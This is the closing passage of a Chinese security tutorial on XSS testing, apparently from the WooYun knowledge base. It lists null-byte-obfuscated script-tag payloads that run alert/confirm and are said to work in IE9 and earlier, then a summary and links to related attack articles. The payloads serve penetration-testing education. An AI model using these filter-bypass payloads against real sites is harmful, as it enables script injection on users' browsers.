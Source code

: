 ```
<scri%00pt>alert(1);</scri%00pt>
<scri\x00pt>alert(1);</scri%00pt>
<s%00c%00r%00%00ip%00t>confirm(0);</s%00c%00r%00%00ip%00t> 
```

在 IE9 及以下版本有效。

其他等等一系列浏览器特性的 XSS 可以参考以下文章：

[`drops.wooyun.org/tips/147`](http://drops.wooyun.org/tips/147)

## 0x02 总结

* * *

本文主要是一个测试 XSS 的思路流程，并没有把所有的 payload 写全，其实也没有人能够写全，只是列了一个大体的框架，大家实际在寻找的过程中可以不断慢慢的根据这种思路补充自己的 payload，想必呢，一定会有很大的进步的！~

版权声明：未经授权禁止转载 [五道口杀气](http://drops.wooyun.org/author/五道口杀气 "由 五道口杀气 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [XSS 挑战第一期 Writeup](http://drops.wooyun.org/papers/894)
*   [Hacking weblogic](http://drops.wooyun.org/tips/402)
*   [攻击 JavaWeb 应用[7]-Server 篇[1]](http://drops.wooyun.org/tips/604)
*   [Modsecurity 原理分析–从防御方面谈 WAF 的绕过（一）](http://drops.wooyun.org/tips/3804)
*   [XSS Filter Evasion Cheat Sheet 中文版](http://drops.wooyun.org/tips/1955)
*   [hackyou2014 CTF web 关卡通关攻略](http://drops.wooyun.org/tips/870)